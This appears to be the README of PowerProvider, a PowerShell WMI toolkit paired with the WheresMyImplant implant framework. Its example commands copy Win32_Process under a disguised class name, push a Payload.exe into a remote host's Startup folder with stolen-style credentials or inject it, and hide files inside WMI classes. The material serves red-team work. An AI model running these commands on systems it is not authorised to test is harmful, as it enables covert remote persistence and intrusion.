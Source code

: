 ## PowerProvider

PowerProvider: A toolkit to manipulate WMI. This toolkit provides functionality to:
* Duplicate Classes
* Create static classes for file storage
* Remote Install WMI Providers

Primarily used in conjunction with WheresMyImplant - https://github.com/0xbadjuju/WheresMyImplant/

### Methods
* **Class Duplication**
  * Invoke-WMIDuplicateClass
    * Invoke-WMIDuplicateClass -TargetClassName Win32_Process -DuplicateClassName Win32_Create -ComputerName $ComputerName -Credential $Credential

* **File Transfer**
  * Invoke-WMIUpload
    * $Destination = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
    * Invoke-WMIUpload -PayloadPath C:\Payload.exe -Destination $Destination -PayloadName Payload.exe -ComputerName  $ComputerName -Credential $Credential
    * Invoke-WMIUpload -PayloadPath C:\Payload.exe -Inject -PayloadName Payload.exe -ComputerName  $ComputerName -Credential $Credential
  * Invoke-WMIRemoteExtract
    * $Destination = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
    * Invoke-WMIRemoteExtract -PayloadName Payload.exe -Destination $Destination -ComputerName  $ComputerName -Credential $Credential

* **File Storage**
  * New-WMIFSClass
  * ConvertTo-Base64
  * Invoke-InsertFileThreaded
  * Invoke-RetrieveFile
  * ConvertFrom-Base64
  * ConvertTo-EncryptedText
  * ConvertFrom-EncryptedText
  
* **Provider Install**
  * Install-WMIProviderInstallUtil
  * Install-WMIProviderPowerShell
  * Install-WMIProviderExtention
  * Uninstall-WMIProviderExtention
